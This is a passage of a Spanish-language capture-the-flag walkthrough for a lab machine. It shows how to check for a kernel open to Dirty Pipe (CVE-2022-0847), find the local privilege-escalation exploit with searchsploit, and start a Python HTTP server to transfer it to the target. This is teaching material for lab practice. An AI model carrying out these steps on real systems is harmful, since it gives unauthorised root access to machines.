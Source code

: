 <br>

<h2 id="Dirty">Convirtiendonos en Root con Dirty Pipe</h2>

Resulta que la máquina es vulnerable al **Exploit Dirty Pipe**, esto porque la versión del Kernel de Linux es menor a **5.16.11** por lo que podemos probarlo para convertirnos en **Root**.

Igual puedes comprobarlo y de paso comprueba que tengamos el binario **gcc**:
```bash
lp@antique:/$ uname -a
Linux antique 5.13.0-051300-generic #202106272333 SMP Sun Jun 27 23:36:43 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
lp@antique:/tmp$ which gcc
which gcc
/usr/bin/gcc
```

En el **GitHub** del maestro **Alexis Ahmed** (un grande este master), explica como usar este Exploit:
* <a href="https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits" target="_blank">Repositorio de AlexisAhmed: CVE-2022-0847-DirtyPipe-Exploits</a>

No es necesario que descargues su versión, ya que es la misma que ya tiene Kali aunque igual puedes ocuparla.

Vamos por pasos:

* Busquemos el Exploit en Kali:
```bash
searchsploit dirty pipe
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 5.8 < 5.16.11 - Local Privilege Escalation (DirtyPipe)               | linux/local/50808.c
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

* Traigamoslo al nuestro entorno de trabajo, puedes cambiarle el nombre:
```bash
searchsploit -m linux/local/50808.c
  Exploit: Linux Kernel 5.8 < 5.16.11 - Local Privilege Escalation (DirtyPipe)
      URL: https://www.exploit-db.com/exploits/50808
     Path: /usr/share/exploitdb/exploits/linux/local/50808.c
    Codes: CVE-2022-0847
 Verified: False
File Type: C source, ASCII text
mv 50808.c dirty_p.c
```

* Abre un servidor de **Python**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
